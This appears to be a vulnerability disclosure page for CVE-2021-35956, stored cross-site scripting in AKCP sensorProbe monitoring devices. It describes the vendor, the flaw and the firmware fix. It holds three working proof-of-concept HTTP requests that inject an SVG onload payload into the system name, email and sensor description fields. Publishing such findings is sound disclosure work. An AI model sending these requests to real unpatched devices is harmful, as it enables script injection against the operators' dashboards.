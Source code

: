 ```yaml
---
layout: cve
title:  "AKCP sensorProbe - 'Multiple' Cross Site Scripting (XSS)"
date: 2021-06-06 09:34:43 -0400
categories: "About"
author: Tyler Butler
cve: CVE-2021-35956 
nist: https://nvd.nist.gov/vuln/detail/CVE-2021-35956
exploit_db: https://www.exploit-db.com/exploits/50080
img: /assets/img/posts/2021-06-28-CVE-2021-35956/akcp_preview.png
description: Stored cross-site scripting (XSS) in the embedded webserver of AKCP sensorProbe before SP480-20210624 enables remote authenticated attackers to introduce arbitrary JavaScript via the Sensor Description, Email (from/to/cc), System Name, and System Location fields.
lead: Stored cross-site scripting (XSS) in the embedded webserver of AKCP sensorProbe before SP480-20210624 enables remote authenticated attackers to introduce arbitrary JavaScript via the Sensor Description, Email (from/to/cc), System Name, and System Location fields.
tag: featured 

hero:
  image: /assets/uswds/img/camera.png
  callout:
    alt: "AKCP sensorProbe"
    text: Multiple Cross Site Scripting (XSS)
  button:
    href:
    text:
    number:
    enable: false
  link:
    text: Link to more about that priority
    href: /link/
  content: Obsrva disclosed a stored cross-site scripting vulnerability to enviormental monitoring device manufacturer AKCP in May of 2021.
---  
```


## **💡 About the Vendor**  

<a href="https://www.akcp.com" class="highlighted">AKCP</a> is a sensor manufacturer developing network-based temperature, enviorment, and power monitoring devices. Their clients include big names like Nasa, Coca-cola, Toyota, Adobe, and much <a href="https://www.akcp.com/about-akcp-2/" class="highlighted">more</a>. Their most popular devices include the sensorProbe, securityProbe, and AKCPro Server. This research identifies multiple stored cross-site scripting vulnerabilities in all sensorProbe devices. According to <a href="https://www.akcp.com/akcp-products/sensorprobe-series/" class="highlighted">AKCP</a>, the sensorProbe devices are,

*"the worlds **most installed** Remote Environmental Sensor Monitoring Device ... deployed in a wide variety of industries including Data Center Environmental Monitoring, Warehouse Temperature Monitoring, Cold Storage Temperature Monitoring, Fuel / Generator Monitoring, and other Remote Site Monitoring applications."*   

###  **🆘 CVE-2021-35956 Vulnerability Details**  

All sensorProbe devices prior to firmware version SP480-20210624 are vulnerable to authenticated stored cross-site scripting via the Sensor Description, Email, and System setting fields. Authenticated users can introduce arbitrary javascript through the vulnerable fields, and have payloads execute in the context of users who visit the sensorProbe embedded webserver dashboard. While stored XSS can be dangerous, this vulnerability requires the attacker to already be authenticated in order to store payloads. 

*The following section identifies proof of concepts for each vulnerable field*  

### Stored Cross-Site Scripting via System Settings  

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via the system name and system location parameters in system settings.

**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**  

```yaml
POST /system?time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 114
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/system?time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

_SA01=System+Namer&_SA02=RDC&_SA03=Name<svg/onload=alert`xss`>&_SA04=1&_SA06=0&_SA36=0&_SA37=0&sbt1=Save
```  

![](/assets/img/posts/2021-06-28-CVE-2021-35956/xss_0.png)  

![](/assets/img/posts/2021-06-28-CVE-2021-35956/xss-1.png)  




### 2) Stored Cross-Site Scripting via Email Settings  

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via the mail from, mail to, and mail cc  parameters in email settings.  

**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**

```yaml
POST /mail?time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 162
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/mail?time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


_PS03=test@test.com&_PS04=test@test.com&_PS05_0=test@test.com&_PS05_1=test@test.comr&_PS05_3=<svg/onload=alert`xxss`>&_PS05_4=&sbt2=Save
```   

![](/assets/img/posts/2021-06-28-CVE-2021-35956/xss_2x.png)  


 


### 3) Stored Cross-Site Scripting via Sensor Description

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via sensor settings description parameter for each of the sensor options. 


**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**  


```yaml
POST /senswatr?index=0&time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/senswatr?index=0&time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: CPCookie=sensors=400
Connection: close

_WT00-IX="><svg/onload=alert`xss`>&_WT03-IX=2&sbt1=Save
```  

###  **🚀 Firmware Upgrade**  

As of Friday June 25th, SensorProbe users can upgrade their devices to SP480-20210624 according to AKCP standards outlined in the <a href="https://www.akcp.com/support-center/customer-login/sensorprobe-series-firmware-download/" class="highlighted">firmware download</a> page.  

__AKCP Official Advisory__

> Firmware Update – Download – release date 28 June 2021
Latest Firmware – SP480-20210624
Note: To download files, right-click on the file and select “save as”
md5sum: 83f107f274ed6fda2cd5aa0f21935a98

IMPORTANT NOTE: The sensorProbe2 & SP8 units with the Atmega128 micro-controller (SPxxxi) do not support this firmware version. You can check your units micro-controller version in the web interface System page >> System Description. If you see an “I” after the firmware version (SPxxxi) then your unit is using the older Atmega128 micro-controller. Please see below for the latest firmware for your SP8 base unit.



![](/assets/img/posts/2021-06-28-CVE-2021-35956/changelog.png)  
